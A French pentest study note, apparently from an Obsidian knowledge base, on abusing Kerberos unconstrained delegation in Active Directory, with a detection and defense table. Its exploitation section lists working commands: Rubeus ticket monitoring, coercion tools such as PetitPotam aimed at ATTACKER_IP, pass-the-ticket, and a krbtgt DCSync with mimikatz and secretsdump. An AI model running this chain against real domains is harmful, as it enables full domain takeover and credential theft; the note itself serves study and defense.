

# 🔓 Kerberos — Unconstrained Delegation

> [!info] **En 1 phrase**
> La délégation non contrainte fait que le service **garde le TGT** de chaque utilisateur dans sa mémoire :
> si ce service est compromis, on **vole le TGT** d'un admin ou du DC (via coerce), puis on se connecte partout à sa place.

---

## 🎯 Concept



> [!info] 💡 **Pourquoi c'est dangereux**
> Normalement, seul le **TGS** (le ticket du service) circule. Avec `TRUSTED_FOR_DELEGATION`
> (bit `0x80000` de `userAccountControl`), le KDC confie au service le **TGT brut** de l'utilisateur
> afin qu'il puisse le rejouer vers d'autres services. Le service peut donc s'impersonner
> **n'importe qui vers n'importe quoi** — compromis, il suffit d'attendre une connexion ou de forcer une authentification.

---

## 🛠️ Exploitation — vol d'un TGT d'admin

> Nécessite : **SYSTEM sur la machine compromise** (celle qui a la délégation).

1. **Monitorer** les tickets qui arrivent en mémoire sur la machine compromise :

```powershell
Rubeus.exe monitor /interval:1
```

2. **Coercer** le DC (ou un admin) à s'authentifier vers notre machine compromise — son TGT est alors **sauvegardé en mémoire** :

```bash
SpoolSample.exe DC01.HACKER.LAB HELPDESK.HACKER.LAB
python3 printerbug.py 'domain/user:pass'@DC01 HELPDESK
python3 petitpotam.py -d domain -u user -p pass ATTACKER_IP DC_IP
python3 dementor.py -d domain -u user -p pass HELPDESK DC01
```

3. **Récupérer le TGT** dans la sortie Rubeus (base64) et demander des tickets pour le DC :

```powershell
Rubeus.exe asktgs /ticket:<ticket base64> /service:ldap/dc.lab.local,cifs/dc.lab.local /ptt
```

4. **DCSync** — le compte `DC$` a le droit de réplication :

```powershell
mimikatz # lsadump::dcsync /user:krbtgt
secretsdump.py -just-dc -k domain/dc\$@dc.domain.local
```

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **userAccountControl** | Repérer `TRUSTED_FOR_DELEGATION` (bit `524288`) sur les machines : `Get-ADComputer -Filter {TrustedForDelegation -eq $True}` |
| **TGT inhabituels** | Un TGT d'admin stocké sur un service tiers ou des demandes renouvelables répétées |
| **Événement 4769** | Demandes de TGS avec options `forwardable` anormales depuis un service |
| **Coercions** | Désactiver le spooler quand possible (PrintNightmare) |
| **Réponse** | Supprimer l'unconstrained ; migrer vers la **délégation contrainte** ou les **gMSA** |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Coerce + Unconstrained = DCSync**
> On coerce le DC, on vole son TGT, puis on fait `lsadump::dcsync` : c'est le chemin le plus court vers le hash **krbtgt**.

> [!warning] ⚠️ **Les DC ont presque TOUJOURS la délégation non contrainte** — et le compte `DC$` a le droit **DCSync**. C'est la cible classique du trio "coerce + délégation + DCSync".

> [!warning] ⚠️ **Piège** : coerce via une **IP** peut ne ramener que du **NTLM**. Force un **hostname** (FQDN) pour obtenir un ticket Kerberos utilisable.

---

> [!info] 📚 **Sources**
> - [InternalAllTheThings — Kerberos Delegation](https://github.com/swisskyrepo/InternalAllTheThings/tree/main/docs/active-directory)
> - [Harmj0y — Another Word on Delegation](https://blog.harmj0y.net/activedirectory/another-word-on-delegation/)
> - [The Hacker Recipes — Delegations](https://www.thehacker.recipes/ad/movement/kerberos/delegations)

➡️ **Liens :** [[Kerberos Delegation|🎯 Hub Délégation]] · [[Kerberos - Constrained Delegation|🔗 Constrained]] · [[Kerberos - RBCD (Resource-Based Constrained Delegation)|🧬 RBCD]] · [[Coerce - PrinterBug et PetitPotam|🧲 Coerce]] · [[Kerberos - Le protocole|👑 Kerberos]]
